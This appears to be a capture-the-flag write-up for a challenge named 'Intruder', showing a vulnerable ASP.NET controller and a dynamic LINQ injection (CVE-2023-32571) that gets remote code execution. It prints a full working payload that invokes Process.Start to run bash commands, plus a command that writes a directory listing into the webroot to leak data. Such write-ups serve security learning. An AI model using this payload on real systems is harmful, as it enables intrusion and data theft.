 ### Intruder

This challenege made use of a LINQ rce to exfiltrate data. A new thing i came across was the use of dnSpy/iLspy for reverse engineering compiled dlls

In the website there are 2 options- to view books or to add them. the adding function doesnt work but when we try to view and enter a " in the search box, an error appears
```Something wrong happened while searching!```. Hence time to look at src code

A Dynamic Link Library (DLL) is a type of executable file in Windows that contains reusable code, data, and resources that can be used by multiple programs at once. 
DLLs allow developers to create modular and efficient code, and share resources between different applications.

The source code had a number of dlls. Hence we had to go to the dockerfile.
In Dockerfile, the entry point is this bash command:
```
ENTRYPOINT ["dotnet", "CRUD.dll"]
```
[In Dockerfiles, an ENTRYPOINT instruction is used to set executables that will always run when the container is initiated.]

In this whenn we search for the code for book searching functionality, we’ll find it in class BookController method Index:
```
 public IActionResult Index(string searchString, int page = 1, int pageSize = 5)
    {
        try
        {
            IQueryable<Book> query = _books.AsQueryable();
            if (!string.IsNullOrEmpty(searchString))
            {
                query = query.Where("Title.Contains(\"" + searchString + "\")");
            }
            int totalItems = query.Count();
            int totalPages = (int)Math.Ceiling((double)totalItems / (double)pageSize);
            List<Book> books = query.Skip((page - 1) * pageSize).Take(pageSize).ToList();
            BookPaginationModel viewModel = new BookPaginationModel
            {
                Books = books,
                TotalPages = totalPages,
                CurrentPage = page
            };
            return View(viewModel);
        }
        catch (Exception)
        {
            base.TempData["Error"] = "Something wrong happened while searching!";
            return Redirect("/books");
        }
    }
```
It directly concatenates our searchString GET parameter’s value into query.Where:
The Where method belongs to LINQ (Language Integrated Query).

Language-Integrated Query (LINQ) is the name for a set of technologies based on the integration of query capabilities directly into the C# language. Traditionally, queries against data are expressed as simple strings without type checking at compile time or IntelliSense support. Furthermore, you have to learn a different query language for each type of data source: SQL databases, XML documents, various Web services, and so on. With LINQ, a query is a first-class language construct, just like classes, methods, and events. - https://learn.microsoft.com/en-us/dotnet/csharp/linq/

If we Google something like “LINQ vulnerability”, we can see a blog post mentioned that dynamic LINQ injection could result in RCE  The vulnerability is CVE ID “CVE-2023-32571”acc to which LINQ version 1.0.7.10 to 1.2.25 is vulnerable to that vulnerability. 
```"System.Linq.Dynamic.Core": "1.2.25"```
Hence we found the vuln

The paylaod given to bypass it is:
```
"".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredMethods.Where(it.Name == "CreateInstanceAndUnwrap").First().Invoke("".GetType().Assembly.DefinedTypes.Where(it.Name == "AppDomain").First().DeclaredProperties.Where(it.name == "CurrentDomain").First().GetValue(null), "System, Version = 4.0.0.0, Culture = neutral, PublicKeyToken = b77a5c561934e089; System.Diagnostics.Process".Split(";".ToCharArray())).GetType().Assembly.DefinedTypes.Where(it.Name == "Process").First().DeclaredMethods.Where(it.name == "Start").Take(3).Last().Invoke(null, "bash;-c <command-here>".Split(";".ToCharArray()))
```

Hence modifying to exfltrate our files:
The webroot directory is the part of the server's file system that is exposed to the web. Any file placed in this directory can be accessed directly through a URL, such as http://example.com/filename.txt. So we can output the result to the webroot directory, which is at /app/src/wwwroot/.

bash command used: ```\"ls / > /app/src/wwwroot/output.txt\"```

![image](https://github.com/user-attachments/assets/085727fd-e6c9-4be5-9230-d6e18b96d820)



